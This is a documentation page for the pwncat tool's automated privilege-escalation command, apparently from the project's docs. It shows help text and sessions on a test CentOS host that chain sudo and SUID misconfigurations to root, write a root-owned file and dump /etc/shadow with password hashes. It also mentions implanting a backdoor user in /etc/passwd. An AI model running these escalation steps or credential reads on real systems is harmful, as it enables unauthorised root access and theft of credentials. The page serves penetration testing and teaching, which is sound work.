 Automated Privilege Escalation
==============================

``pwncat`` has the ability to attempt automated privilege escalation methods. A number of methods are implemented by
default such as:

* Set UID Binaries
* Sudo (with and without password)
* screen (CVE-2017-5618)
* DirtyCOW

Each of these methods utilize the capabilities of the GTFOBins module. The GTFOBins module provides a programmatic
interface to gtfobins_. Each privilege escalation module implements shell, file read or file write capabilities.
``pwncat`` will leverage these to get shell access as the specified user. ``pwncat`` does this by trying the following
methods with the provided capabilities:

* Executing a shell (the simplest option)
* Reading user private keys and ssh-ing to localhost
* Writing private keys
* Implanting a backdoor user in /etc/passwd (if file-write as root is available)

If ``pwncat`` does not find a method of gaining access as the specified user directly, it will attempt to escalate to
any other user it can recursively to attempt to find a path to the requested user.

Invoking Privilege Escalation
-----------------------------

The ``privesc`` command provides an interface to the underlying privilege escalation module. There are three different
modes available:

* Escalate (attempt to gain a shell)
* File Read (attempt to read a file as the specified user)
* File Write (attempt to write a file as the specified user)

The file read and file write capabilities will also attempt to recursively find a path to the requested user by utilizing
the escalate functionality in order to perform file read or write. Invoking the privesc module is simple:

.. code-block:: bash

    (local) pwncat$ privesc --help
    usage: privesc [-h] [--list] [--all] [--user USER] [--max-depth MAX_DEPTH] [--read]
                   [--write] [--path PATH] [--escalate] [--data DATA]

    Attempt various privilege escalation methods. This command will attempt search for
    privilege escalation across all known modules. Privilege escalation routes can grant
    file read, file write or shell capabilities. The "escalate" mode will attempt to abuse
    any of these to gain a shell. Further, escalation and file read/write actions will
    attempt to escalate multiple times to reach the target user if possible, attempting all
    known escalation paths until one arrives at the target user.

    optional arguments:
      -h, --help            show this help message and exit
      --list, -l            Enumerate and list available privesc techniques
      --all, -a             list escalations for all users
      --user USER, -u USER  the user to gain privileges as
      --max-depth MAX_DEPTH, -m MAX_DEPTH
                            Maximum depth for the privesc search (default: no maximum)
      --read, -r            Attempt to read a remote file as the specified user
      --write, -w           Attempt to write a remote file as the specified user
      --path PATH, -p PATH  Remote path for read or write actions
      --escalate, -e        Attempt to escalate to gain a full shell as the target user
      --data DATA, -d DATA  The local file to write to the remote file

If no user is specified, ``pwncat`` will assume you would like to escalate to root. The default action is to enumerate
and list all known privilege escalation methods.

Privilege Escalation Enumeration
--------------------------------

The ``--list/-l`` option is the default action for ``privesc`` and will list all known and observed privilege escalation
methods. This may take some time as it will need to probe the remote system for application version, SUID files, sudo
rights, etc. After it finishes, it will list all **direct** privilege escalation methods observed. It cannot list second
layer privilege escalation methods, only methods to gain access in one hop.

.. code-block:: bash

    (local) pwncat$ privesc -l
    [+] searching for setuid binaries: complete
    [+]  - file read as phil via /bin/cat (sudo NOPASSWD)

The results of some searches are cached in the database, which means that methods located as a different user may be
displayed for this user after enumeration. For example, after escalating to root, ``pwncat`` may know about SUID binaries
not initially observable as the ``bob`` user. After escalating and backing out to ``bob``, you can view ``privesc -l``
to see the new SUID binary. In this case, ``bob`` can't use ``/home/phil/awk``, however ``pwncat`` now knows it exists.

.. code-block:: bash

    (remote) bob@pwncat-centos-testing:/root$ id
    uid=1001(bob) gid=1001(bob) groups=1001(bob) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    (remote) bob@pwncat-centos-testing:/root$
    [+] local terminal restored
    (local) pwncat$ privesc -e
    [+] privilege escalation succeeded using:
     ⮡ file read as phil via /bin/cat (sudo NOPASSWD)
      ⮡ file write as george via /home/phil/awk (setuid)
       ⮡ shell as root via /bin/awk (sudo NOPASSWD)
    [+] pwncat is ready 🐈

    (remote) root@pwncat-centos-testing:/home/george# id
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    (remote) root@pwncat-centos-testing:/home/george# exit
    exit
    (remote) george@pwncat-centos-testing:~$ exit
    logout
    Connection to 127.0.0.1 closed.
    vGeCOehDTw
    (remote) phil@pwncat-centos-testing:~$ exit
    logout
    Connection to 127.0.0.1 closed.
    0MkSG6WtyD
    (remote) bob@pwncat-centos-testing:/root$ id
    uid=1001(bob) gid=1001(bob) groups=1001(bob) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    (remote) bob@pwncat-centos-testing:/root$
    [+] local terminal restored
    (local) pwncat$ privesc -l
    [+]  - file read as phil via /bin/cat (sudo NOPASSWD)
    [+]  - shell as george via /home/phil/awk (setuid)
    [+]  - file read as george via /home/phil/awk (setuid)
    [+]  - file read as george via /home/phil/awk (setuid)
    [+]  - file write as george via /home/phil/awk (setuid)

Gaining A Shell As Another User
-------------------------------

The ``escalate`` mode for the ``privesc`` command allows you to initiate automated privilege escalation to obtain a
shell as the specified user. As mentioned before, absent a specified user, ``pwncat`` will attempt to obtain ``root``
privileges. If ``pwncat`` is successful, it will tell the list of vulnerabilities leveraged to gain access as the user
at each step in the chain. In the example above, ``pwncat`` used vulnerabilities across three different users to gain
access as the root user. What is not visible above is the progress output displayed during enumeration. As ``pwncat``
enumerates privilege escalation methods, a line will be displayed detailing what methods ``pwncat`` is attempting or
enumerating. If there are any important failures or information, they will be kept in the output for your to inspect.
If not, this progress line will be overwritten with the successful chain as seen above.

Gaining File Write As Another User
----------------------------------

The ``privesc`` command provides access to the underlying File Write capability of the the various privilege escalation
modules. This is mainly for debugging purposes, but does allow you to write local file files from the attacking machine
to a remote file utilizing the privileges of the given user. As with ``escalate``, it will attempt to find a chain of
vulnerabilities to allow file-write as the specified user (``root`` by default). This mode is activated with the
``--write/-w`` switch. The remote path you would like to write to is specified with ``--path/-p``. The local file you
would like to write is specified with ``--data/-d``.

.. code-block:: bash

    (remote) george@pwncat-centos-testing:~$
    [+] local terminal restored
    (local) pwncat$ privesc -l
    [+] searching for setuid binaries: complete
    [+]  - shell as root via /bin/awk (sudo NOPASSWD)
    [+]  - file read as root via /bin/awk (sudo NOPASSWD)
    [+]  - file read as root via /bin/awk (sudo NOPASSWD)
    [+]  - file write as root via /bin/awk (sudo NOPASSWD)
    [+]  - shell as george via /home/phil/awk (setuid)
    [+]  - file read as george via /home/phil/awk (setuid)
    [+]  - file read as george via /home/phil/awk (setuid)
    [+]  - file write as george via /home/phil/awk (setuid)
    (local) pwncat$ privesc -u root -w -p /tmp/owned_by_root -d /tmp/hello
    [+] file written successfully!
    (local) pwncat$
    [+] pwncat is ready 🐈

    (remote) george@pwncat-centos-testing:~$ ls -la /tmp/owned_by_root
    -rw-r--r--. 1 root root 18 May 19 20:14 /tmp/owned_by_root
    (remote) george@pwncat-centos-testing:~$ cat /tmp/owned_by_root
    hello from george
    (remote) george@pwncat-centos-testing:~$

Gaining File Read As Another User
---------------------------------

Reading files is much like the File Write mode discussed above. Utilizing this mode is accomplished with the ``--read/-r``
switch. Again, the remote path is specified with the ``--path/-p`` parameter.

.. code-block:: bash

    (remote) george@pwncat-centos-testing:~$
    [+] local terminal restored
    (local) pwncat$ privesc -u root -r -p /etc/shadow
    [+] file successfully opened!
    root:$6$DwHIiXGAalKEUS9Z$rGSdeIjIfLoalLc9LnQfGzZZms/79Z6kEpzhBrJZRnXFtm/oPm0CsVaMdDCyVsqsXVp3AxIqfpSclD99wU27K.:18394:0:99999:7:::
    bin:*:18264:0:99999:7:::
    daemon:*:18264:0:99999:7:::
    adm:*:18264:0:99999:7:::
    lp:*:18264:0:99999:7:::
    sync:*:18264:0:99999:7:::
    shutdown:*:18264:0:99999:7:::
    halt:*:18264:0:99999:7:::
    mail:*:18264:0:99999:7:::
    operator:*:18264:0:99999:7:::
    games:*:18264:0:99999:7:::
    ftp:*:18264:0:99999:7:::
    nobody:*:18264:0:99999:7:::
    dbus:!!:18274::::::
    systemd-coredump:!!:18274::::::
    systemd-resolve:!!:18274::::::
    tss:!!:18274::::::
    polkitd:!!:18274::::::
    rpc:!!:18274:0:99999:7:::
    unbound:!!:18274::::::
    sssd:!!:18274::::::
    setroubleshoot:!!:18274::::::
    rpcuser:!!:18274::::::
    cockpit-ws:!!:18274::::::
    sshd:!!:18274::::::
    chrony:!!:18274::::::
    centos:!!:18394:0:99999:7:::
    bob:$6$U6YRRC9vclExaoie$9nmmBXWekwwwN3qWRBusxH4lyfvcE1FoYPbrBo2krXXcg1s1wZBYot/67XsYmdf0RPK3vkt3s2nib0Pc5Su8h.:18397:0:99999:7:::
    george:$6$aDFGsMbwH6bPSNaT$T3V0OFpJU1rnYyTfCrj.Oea2srqjkxB8M9xkik8n1mn/xBsXrUaV5BRLwwTcPUbELNx0Rz3eqTIkTL/G2cYse0:18397:0:99999:7:::
    phil:$6$8ZHcNNpUYrDgTCsn$DrY.Nxa4E7JM.g91TBm4AOMxoOdGLCpgVqADCvaAv8NQlvgAyvbIDaPbFaoIj.B6wZhP.ZlVBcsCUq8GuhQgY1:18397:0:99999:7:::
    (local) pwncat$

.. _gtfobins: https://gtfobins.github.io